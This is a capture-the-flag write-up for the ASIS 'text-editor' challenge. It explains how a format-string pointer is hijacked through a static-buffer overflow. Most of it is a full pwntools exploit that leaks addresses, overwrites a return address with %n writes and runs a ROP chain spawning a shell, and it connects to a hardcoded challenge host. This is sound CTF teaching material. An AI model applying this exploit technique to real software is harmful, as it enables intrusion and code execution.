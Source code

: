 # text-editor

## Challenge

Connecting to the challenge presents the following prompt:

```
Welcome to simple text editor!
Menu:
1. edit text
2. save text
3. exit
> 
```

The program is very simple.
We can edit text in a static buffer and copy this text to a stack buffer.

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## Solution

When `edit text` is selected, the program reads 0x108 bytes from stdin and copies this into a static buffer.

However, the 8 bytes at offset 0x100 in this buffer are used as arg1 to printf when printing an error.
This error is triggered when selecting a menu option that does not exist (e.g. option 0).

By overwriting this pointer, we can pass a different format string argument to printf.
However, PIE and ASLR are enabled, so we do not know what address to overwrite it with.

By overwriting the lowest 2 bytes, we can have a 1 in 16 chance of pointing this argument at our static buffer.
This would give us control over the contents of the format string.

We can improve the chances of success further.
If we overwrite the pointer and the program does not crash, but prints unexpected values, we can use this to determine where we have landed.
From there, we can calculate the correct offset to the static buffer and overwrite the pointer again with the correct value.
This gives us a 1 in 4 chance of success.

Once we have control over the format string parameter, we can leak addresses.
In this exploit, the libc address and stack address were used.

`save text` allows us to copy the static buffer onto the stack.
This is useful for providing printf with addresses to write to, using stack arguments and the `%n` conversion specifier.

We can use the pwntools `fmtstr_payload` function to automatically generate a payload for our desired writes.

We want our ROP chain at the start of the stack buffer if possible.
We also want the format string to print first, as null bytes in the ROP chain would cause it to be ignored.

Both are possible, as we can have different payloads in the static buffer and in the stack buffer.
In the stack buffer, we place our ROP chain, followed by the format string payload.
We then place the format string payload at the start of our static buffer as well.
The static buffer will be passed to printf, but we will have access to the ROP chain and addresses in the stack buffer.

We use an 8 byte overwrite to change the return address to enter our ROP chain.
Our ROP chain then calls `system("/bin/sh")` to spawn a shell.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 45.153.243.57 --port 13337 stuff/chall
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'stuff/chall')
libc = ELF('libc.so.6')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or '45.153.243.57'
port = int(args.PORT or 13337)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

def show_error():
    io.sendlineafter(b'> ', b'0')

def edit_text(text):
    io.sendlineafter(b'> ', b'1')
    io.sendafter(b': ', text)

def save_text():
    io.sendlineafter(b'> ', b'2')

payload = flat({
    0x0: b'X',
    0x100: p16(0x8020),
})
edit_text(payload)
show_error()

first = io.recv(1)

print(first)

offset = 0
if first == b'X':
    offset = 0
elif first == b'\xff':
    offset = -0x3000 
elif first == b'\x40':
    offset = -0x4000
elif first == b'\x2e':
    print("HIT .")
    payload = flat({
        0x0: b'X',
        0x100: p16(0x9020),
    })
    edit_text(payload)
    show_error()

    first = io.recv(1)
    if first == b'X':
        offset = -0x1000
    else:
        offset = -0x2000


print(hex(offset))

payload = flat({
    0x100: p16(0x8020 - offset),
})
io.sendlineafter(b'> ', b'1')
io.sendafter(b': ', payload)

payload = b'%6$p\0'
edit_text(payload)
show_error()
stack = int(io.recvuntil(b'M', drop=True), 0) - 0x130
print("stack: " + hex(stack))

payload = b'%7$p\0'
edit_text(payload)
show_error()
exe.address = int(io.recvuntil(b'M', drop=True), 0) - 0x1406
print("exe: " + hex(exe.address))

payload = b'%45$p\0'
edit_text(payload)
show_error()
libc.address = int(io.recvuntil(b'M', drop=True), 0) - libc.libc_start_main_return
print("libc: " + hex(libc.address))

rop = ROP(libc)

fmtstr = fmtstr_payload(10 + 16, {stack + 8: rop.find_gadget(['pop r13', 'pop r14', 'ret']).address}, write_size='short')

rop.call('system', [next(libc.search(b'/bin/sh'))])

edit_text(flat({0: rop.chain(), 128: fmtstr}))
save_text()

edit_text(fmtstr)
show_error()

io.interactive()
```

## Flag

```
ASIS{text_editing_has_never_been_so_fun_d1fd2}
```
